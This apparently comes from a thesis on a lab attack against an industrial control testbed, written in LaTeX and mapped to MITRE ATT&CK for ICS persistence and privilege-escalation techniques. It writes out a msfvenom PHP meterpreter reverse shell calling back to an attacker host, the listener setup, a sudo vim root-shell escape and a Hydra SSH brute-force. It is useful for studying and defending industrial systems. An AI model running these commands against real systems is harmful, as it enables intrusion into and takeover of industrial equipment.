 \documentclass[Master,BMR,english]{twbook}
\begin{document}
\section*{Persistence}

\textbf{Modify Program (T0889):} 

With the help of the \texttt{msfvenom} tool, the attacker creates a reverse shell payload that he places in the folder where the PHP application is located, thus enabling it to always have access to PLC1

\begin{listing}[htbp]
\begin{verbatim}
# Reverse shell payload creation:
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.137.246 
    LPORT=535 -e php/base64  -f raw > backup.php

# Insert the payload into the PHP file:
<?php
// payload code here
?>

# Starting the server in the same directory as the malicious   
# file so that it can be downloaded from PLC1:
python3 -m http.server 80
# Downloading the given file from the Kali server
wget http://192.168.137.246/backup.php

# Starting the meterpreter handler in Kali with the next commands:
msfconsole
use multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST <KALI-IP>
set LPORT <PORT>
run

# Navigate to the PHP file in a web browser to trigger the reverse shell:
http://192.168.137.246/backup.php
\end{verbatim}
\caption{Modify Program}
\end{listing}

\section*{Privilege Escalation}

\textbf{Exploitation for Privilege Escalation (T0890):} Due to a misconfigured sudoers file, the attacker could exploit this by opening a file in \verb|vim| with elevated privileges, then using \verb|vim| to spawn a shell with root rights. 

\begin{listing}[htbp]
\begin{verbatim}
# Opening the given file and spawning a shell:
sudo vim private_file.txt
:shell

# Execution of Brute Force attack via Hydra:
hydra -l engineer -P john.lst -t 4 -o ~/Desktop/results.txt ssh://192.168.137.10
\end{verbatim}
\caption{Exploitation for Privilege Escalation}
\end{listing}
\end{document}
